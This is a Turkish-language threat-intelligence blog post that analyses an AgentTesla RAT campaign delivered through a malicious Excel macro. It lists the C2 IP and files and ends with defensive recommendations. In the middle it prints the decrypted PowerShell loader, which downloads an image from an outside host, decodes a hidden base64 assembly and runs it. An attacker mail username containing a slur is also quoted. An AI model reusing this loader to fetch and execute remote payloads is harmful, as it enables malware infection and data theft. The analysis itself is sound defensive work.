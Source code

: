 <link rel="stylesheet" href="../../CSS/style.css" type="text/css">

# AgentTesla Excel Malware IoC Analizi | RAT Yazılımı

<!-- SEO Meta Tags -->
<meta name="description" content="AgentTesla Excel malware analizi ve IoC çalışması. Siber güvenlik uzmanı Ali Can Gönüllü'den AgentTesla RAT yazılımı detaylı analizi.">
<meta name="keywords" content="AgentTesla, Excel, malware analizi, IoC, threat intelligence, siber güvenlik, RAT, zararlı yazılım, Excel malware">
<meta name="author" content="Ali Can Gönüllü">
<meta name="robots" content="index, follow">
<meta property="og:title" content="AgentTesla Excel Malware IoC Analizi">
<meta property="og:description" content="AgentTesla RAT yazılımı detaylı analizi ve Excel malware IoC çalışması.">
<meta property="og:type" content="article">
<meta property="og:url" content="https://github.com/alicangonullu/CTI_Arastirmalarim/IoC/AgentTesla_IoC/">
<meta property="og:image" content="https://alicangnll.github.io/CTI_Arastirmalarim/IoC/AgentTesla_IoC/harmful_mail_example.png">
<meta name="twitter:card" content="summary_large_image">
<meta name="twitter:title" content="AgentTesla Excel Malware IoC Analizi">
<meta name="twitter:description" content="AgentTesla RAT yazılımı detaylı analizi.">
<meta name="twitter:image" content="https://github.com/alicangonullu/CTI_Arastirmalarim/IoC/AgentTesla_IoC/harmful_mail_example.png">

<p>
    <center><strong>Ali Can Gönüllü</strong> | Siber Güvenlik Uzmanı | <a href="mailto:alicangonullu@yahoo.com">alicangonullu@yahoo.com</a><br>
    <em>LinkedIn: <a href="https://linkedin.com/in/alicangonullu" target="_blank">linkedin.com/in/alicangonullu</a></em></center><br>
    <strong>Merhabalar,</strong><br>
    Arkadaşlar bu yazımda sizlerle beraber <strong>AgentTesla</strong> adlı RAT yazılımını detaylıca inceleyeceğiz.
</p>

# Disclaimer | Yasal Uyarı
<p>
  Bu blog yazısında sağlanan bilgiler yalnızca eğitim ve bilgilendirme amaçlıdır. <b>Bilgisayar korsanlığı, siber saldırılar veya bilgisayar sistemlerine, ağlara veya verilere herhangi bir şekilde yetkisiz erişim de dahil olmak üzere herhangi bir yasa dışı veya etik olmayan faaliyeti</b> teşvik etme veya reklam etme amacı taşımaz.
<br><br>
  Disclaimer: The information provided in this blog post is intended for educational and informational purposes only. It is not intended to encourage or promote any illegal or unethical activities, including hacking, cyberattacks, or any form of unauthorized access to computer systems, networks or data.
</p>

## Yayılış Biçimi
<p>
    Virüs genel olarak e-mail ortamında ve e-maillere ek olarak eklenmiş dosyalarda yayıldığını görmekteyiz. Ek dosyayı açtığınızda çalışmaktadır.
    <br><br>
    <img src="harmful_mail_example.png" />
    <br><br>
</p>

## Çalışma Mantığı
<p>
    Zararlı yazılımın çalışma mantığını ifşa etmek amacıyla çalışmalarda zararlı Excel dosyasının (Dosya Adı: Order_HR WJO-29-09_1.xlam.xlsx) içerisindeki "makro" olarak bilinen Visual Basic kodları yardımıyla "79.110.48.52" IP adresli bir makinaya dosya indirme isteği gönderdiğini gözlemliyoruz.
    <br>
    IP adresine direkt olarak HTTP portu üzerinden bağlandığımızda bizi IIS ekranı karşılamaktadır. Buradan server üzerinde Windows OS işletim sisteminin çalıştığını görmekteyiz.
    <br><br>
    <img src="c2_server.png" />
    <br><br>
    IP adresli makina ve makro kodları üzerinde yaptığım çalışmalarda IP adresinde "ngown.vbs" ve "ngohms.txt" adlı iki dosyaya rast geldim.
    <br>
    Öncelikle "ngown.vbs" adlı dosyayı incelediğimizde karşımıza bazı Windows komutları çıkmakta ve bu komutlarla hedef cihaz hakkında Ağ Cihazları bilgileri, WCN dosya bilgileri, Güvenlik Duvarı bilgileri ve Ağ Keşfi gibi pek çok bilgiyi edinmeye çalıştığı görülmüştür.
    <br><br>
    <img src="vbs_file.png" />
    <br><br>
    Bahsi geçen sunucu üzerinden CVE 2017-11882 ve/veya CVE-2018-0802 zafiyetini sömürmeyi sağlayan "ngohms.txt" kodu çağırılmaktadır. Zafiyetin kaynağı olan "EQNEDT32.EXE" adlı Office dosyası çalışmaya başlar ve zafiyet sömürülerek sonraki aşamaya geçilir. 
    <br><br>
    <img src="txt_file.png" />
    <br><br>
    Bu kod ile sistem içerisinde tamamen gizlenerek Anti-Virüs programlarından tamamen gizlenebilmektedir. "ngohms.txt" adlı veri dosyasını dosyasını tamamen dekripte ettiğimizde ise ortaya çıkan kod ise şöyledir,
    <br><br>
    <code>
    $imageurl = "https://uploaddeimagens.com.br/*****/004/616/609/original/*****.jpg"
    $webclient = new-object system.net.webclient
    $imagebytes = $webclient.downloaddata("https://uploaddeimagens.com.br/*****/004/616/609/original/*****.jpg")
    $imagetext = ([system.text.encoding]::ascii).getstring($imagebytes)
    $startflag = "<>"
    $endflag = "<>"
    $startindex = $imagetext.indexof("<>")
    $endindex = $imagetext.indexof("<>")
    $startindex -ge 0 -and $endindex -gt $startindex
    $startindex = $startflag.length
    $base64length = $endindex - $startindex
    $base64command = $imagetext.substring($startindex, $base64length)
    $commandbytes = [system.convert]::frombase64string($base64command)
    $loadedassembly = [system.reflection.assembly]::load($commandbytes)
    $type = $loadedassembly.gettype("Fiber.Home")
    $method = ($type.getmethod("VAI")).invoke($null, [object[]]"txt.smhogn/25.84.011.97//:ptth", "dfdfd", "dfdf", "dfdf", "dadsa", "de", "cu")
    </code>
    <br><br>
    IoC testimiz devam ederken bu kod parçası yardımıyla "uploaddeimagens.com.br" web sitesinden JPEG dosyası formatında görünen bir virüs olduğunu görüyoruz. Burada resmi incelemeye başlıyoruz
    <br><br>
    <img src="harmful_img.png" />
    <br><br>
    Masumane bir resim gibi görünüyor fakat içerisindeki string verileri maalesef öyle değil. Resmin içeriğini incelediğimizde asıl gerçeği görmekteyiz. Resim içeriğinin başında bildiğimiz resim verileri varken sonunda bir BASE64 şifreleme algoritması ile şifrelenmiş veri görmekteyiz.
    <br><br>
    <img src="harmful_img_b64.png" />
    <br><br>
    Base64 kodunu da dekripte ettiğimizde ise karşımıza çıkan bir EXE dosyasının BASE64 şeklinde dosya içeriğine gizlendiğini görmekteyiz.
    <br><br>
    <img src="b64_decrypt.png" />
    <br><br>
    Bu kodun EXE içeriğini de incelediğimizde "RegAsm.exe" adlı yazılıma ait olduğunu buluyoruz. Fakat bu yazılımın çalıştıktan sonra bir HID (Donanım) olarak algılanmak için bir sürücü indirdiğini fark ediyoruz. Bu sayede kendisini bilgisayara bağlı bir donanım olarak göstererek çalışmaya devam edecek.
    <br><br>
    <pre>http://********.com/******/dstrootcax3.p7c</pre>
    <br><br>
    Bu aşamada virüsün çalışma aşamaları bitti. Bu aşamadan itibaren zararlı yazılımın sahibine haber verip vermediğini araştırmaya başladım.
    <br>
    RegAsm.exe üzerinde yaptığım ek çalışmalarda da istediğime ulaşarak mail sunucusu üzerinden sahibine haber verdiğini fark ettim.
    <br>
    <pre>
    Host : mail.********.***
    Username : niggabown20thsept@worlorderbillions.top
    </pre>
</p>

## Çözüm Önerisi
<ul>
    <li>Virüs koruma yazılımlarını güncel tutmak</li>
    <li>SPAMHaus tarafından tutulan zararlı mail listelerini güncellemek</li>
    <li>Bahsi geçen "79.110.48.52" IP adresini güvenlik duvarı yazılımlarından engellemek</li>
    <li>VBS dosyalarının açılmasını Domain Controller üzerinden engellemek</li>
    <li>Excel makrolarını kapalı tutmak</li>
    <li>Kurumsal düzeyde bilinmeyen mail adreslerinden gelen dosyaların AÇILMAMASI gerektiğini personellere anlatmak</li>
</ul>

# Yazar | Author 
<p>
  Ali Can GÖNÜLLÜ<br>
  Siber Güvenlik Uzmanı<br>
  alicangonullu[at]yahoo.com
</p>